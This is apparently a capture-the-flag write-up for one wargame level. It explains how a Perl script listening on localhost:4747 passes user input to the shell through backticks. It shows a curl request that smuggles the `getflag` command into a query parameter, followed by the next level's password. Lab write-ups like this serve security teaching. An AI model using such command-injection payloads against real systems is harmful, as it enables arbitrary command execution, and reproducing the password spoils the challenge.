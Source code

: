 Reading the perl script, we can see `localhost:4747`.
So we may think that there is a script running at this address.
Furthermore, in the script, the line "print `echo $y 2>&1`".
If we run "./level04.pl x=\`ls -l\`" it will run the command ls.
Because of that, we tried to connect to localhost:4747 passing `getflag` as `x`:
```
curl 'localhost:4747/?x=`getflag`'
```
```
su level05
ne2searoevaevoem4ov4ar8ap
```
